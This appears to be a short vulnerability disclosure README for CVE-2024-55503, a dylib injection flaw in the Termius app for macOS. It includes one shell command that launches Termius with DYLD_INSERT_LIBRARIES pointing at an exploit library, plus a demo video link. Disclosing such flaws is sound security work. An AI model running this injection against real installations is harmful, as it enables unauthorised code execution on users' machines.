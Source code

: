 # CVE-2024-55503
Termius App MacOS dylib Command injection

# Description
An issue in termius before v.9.9.0 allows a local attacker to execute arbitrary code via a crafted script to the DYLD_INSERT_LIBRARIES component. using dylib
```shell
DYLD_INSERT_LIBRARIES=exploit_combined.dylib /Applications/Termius.app/Contents/MacOS/Termius
```
# Preduce

[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/R-Kze6liCwA/maxresdefault.jpg)](https://youtu.be/R-Kze6liCwA)

# Impact
command execution (local)

# References
CVE Record: https://www.cve.org/CVERecord?id=CVE-2024-55503
